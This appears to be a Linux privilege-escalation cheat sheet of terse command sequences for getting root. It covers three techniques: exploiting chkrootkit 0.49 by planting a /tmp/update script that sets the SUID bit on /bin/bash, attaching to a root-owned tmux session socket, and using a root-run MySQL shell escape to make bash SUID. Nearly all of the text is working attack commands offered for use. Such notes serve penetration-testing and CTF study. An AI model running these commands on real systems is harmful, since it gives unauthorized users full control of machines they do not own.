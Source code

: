 ## __chkrootkit 0.49__

```
Expliot: https://www.exploit-db.com/exploits/33899

cat /etc/cron.daily

/usr/bin/chkrootkit
ls -la /usr/bin/chkrootkit     // Do we have SUID?
chkrootkit -V
echo "#!/bin/bash" > /tmp/update
echo "chmod +s /bin/bash" >> /tmp/update
Wait a While ...
/bin/bash -p
id && whoami
```

## __Tmux__

tmux is a terminal multiplexer for Unix-like operating systems.

It allows multiple terminal sessions to be accessed simultaneously in a single window.

It is useful for running more than one command-line program at the same time.

Tmux Cheat Sheet: https://tmuxcheatsheet.com/

Privilege Escalation

```
tmux list-sessions                        // Any Tmux sessions running as root?
/tmp/tmux-14/default-root                 // Root Tmux Session
tmux -S /tmp/tmux-14/default-root         // Replace Path to Socket (Depending on your results)

OR

tmux list-sessions                        // Any Tmux sessions running as root?
/tmp/tmux-14/default-root                 // Root Tmux Session
tmux -S /opt/.dev/gbm/ attach -t 0        // Replace Path to Session (Depending on your results)
```

##__MySQL Running as root__

Example 1
```ps1
ps aux | grep root

mysql -u root -p

\! chmod +s /bin/bash
exit
ls -la /bin/bash                          // Verify that the SUID bit is set
/bin/bash -p 
id && whoami
```
